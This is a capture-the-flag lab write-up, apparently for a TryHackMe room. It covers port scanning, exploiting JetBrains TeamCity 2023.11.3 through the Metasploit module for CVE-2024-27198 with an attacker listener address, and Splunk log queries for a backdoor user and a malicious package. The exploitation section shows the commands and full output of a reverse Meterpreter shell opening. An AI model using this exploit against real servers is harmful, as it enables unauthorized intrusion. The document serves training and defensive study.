 ![](../../../assets/images/Pasted%20image%2020251031112046.png)

---
# Method 1
### Enumeration
`Nmap`
```js
 .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/user/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.201.125.63:22
Open 10.201.125.63:80
Open 10.201.125.63:50000
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-01 11:10 UTC
Initiating Ping Scan at 11:10
Scanning 10.201.125.63 [2 ports]
Completed Ping Scan at 11:10, 0.34s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:10
Completed Parallel DNS resolution of 1 host. at 11:10, 0.06s elapsed
DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 11:10
Scanning 10.201.125.63 [3 ports]
Discovered open port 22/tcp on 10.201.125.63
Discovered open port 80/tcp on 10.201.125.63
Discovered open port 50000/tcp on 10.201.125.63
Completed Connect Scan at 11:10, 0.29s elapsed (3 total ports)
Nmap scan report for 10.201.125.63
Host is up, received syn-ack (0.32s latency).
Scanned at 2025-11-01 11:10:46 UTC for 0s

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
80/tcp    open  http    syn-ack
50000/tcp open  ibm-db2 syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
```

---
There is one login page on port `50000`

![](../../../assets/images/Pasted%20image%2020251101164357.png)

![](../../../assets/images/Pasted%20image%2020251101170127.png)

I just Noticed Version `2023.11.3` so searched it immediately and found this on rapid7

![](../../../assets/images/Pasted%20image%2020251101170143.png)

then just searched on `msfconsole` and found it :

![](../../../assets/images/Pasted%20image%2020251101183337.png)

---
### Exploitation

i used 4th module from above list : 

```bash
[msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> set LHOST 10.8.31.47
LHOST => 10.8.31.47
[msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> exploit 
[*] Started reverse TCP handler on 10.8.31.47:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.ZmR4bUVYVzdQLVdJLUo4MHVGS0hYbmdUSllz.NmE3ZGY0MzItMTk4Yi00Y2VjLWEwODgtYmFiMDE1MGNiMzQ3
[*] Uploading plugin: m7WplZt9
[*] Sending stage (58073 bytes) to 10.201.125.63
[*] Deleting the plugin...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_m7WplZt9
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/m7WplZt9
[*] Meterpreter session 1 opened (10.8.31.47:4444 -> 10.201.125.63:54264) at 2025-11-01 11:40:06 +0000
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/m7WplZt9' on the target
```

and i got shell : 

```js
msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> exploit 
[*] Started reverse TCP handler on 10.8.31.47:4445 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.cUdvN1duVmp3RVJQal9aZ2IyTUVCLVExQmRF.OTVkY2U3YzEtZjgwZC00MzIwLWI5ZmUtZjFmN2ZjODZkYzdm
[*] Uploading plugin: ZPYR1Toq
[*] Sending stage (58073 bytes) to 10.201.63.63
[*] Deleting the plugin...
[*] Deleting the authentication token...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_ZPYR1Toq
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/ZPYR1Toq
[*] Meterpreter session 2 opened (10.8.31.47:4445 -> 10.201.63.63:40768) at 2025-11-01 12:59:30 +0000
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/ZPYR1Toq' on the target

(Meterpreter 2)(/opt/teamcity/TeamCity/bin) >

```

and found flag in `/home/ubuntu`

```js
(Meterpreter 2)(/home/ubuntu) > ls
Listing: /home/ubuntu
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  4096  dir   2025-11-01 11:54:58 +0000  .BuildServer
000667/rw-rw-rwx  0     fif   2025-11-01 11:52:59 +0000  .bash_history
100667/rw-rw-rwx  220   fil   2020-02-25 12:03:22 +0000  .bash_logout
100667/rw-rw-rwx  3771  fil   2020-02-25 12:03:22 +0000  .bashrc
040777/rwxrwxrwx  4096  dir   2024-07-02 09:39:13 +0000  .cache
040777/rwxrwxrwx  4096  dir   2024-08-02 08:54:48 +0000  .config
040777/rwxrwxrwx  4096  dir   2024-07-02 09:40:18 +0000  .local
100667/rw-rw-rwx  807   fil   2020-02-25 12:03:22 +0000  .profile
100667/rw-rw-rwx  66    fil   2024-07-02 09:59:35 +0000  .selected_editor
040777/rwxrwxrwx  4096  dir   2024-07-02 09:38:50 +0000  .ssh
100667/rw-rw-rwx  0     fil   2024-07-02 09:39:21 +0000  .sudo_as_admin_successful
100667/rw-rw-rwx  214   fil   2024-07-02 09:46:35 +0000  .wget-hsts
100666/rw-rw-rw-  38    fil   2025-11-01 13:13:38 +0000  flag.txt

(Meterpreter 2)(/home/ubuntu) > cat flag.txt
THM{faa9bac345709b6620a6200b484c7594}
```

---

### Blue Team Part

so the first question is `What is the name of the backdoor user which was created on the server after exploitation?`

so i just selected all time here 

![](attachments/Pasted%20image%2020251101190153.png)

```js
source="/var/log/auth.log" index=* "new user"
```

i searched this and found this : 

![](attachments/Pasted%20image%2020251101190517.png)

Now the second question `What is the name of the malicious-looking package installed on the server?`

for package i checked `dpkg.log` using this 

```js
source="/var/log/dpkg.log" *install*
```

but i found many pkgs so i mentioned date from user that we found earlier `eviluser` 

```js
source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*
```

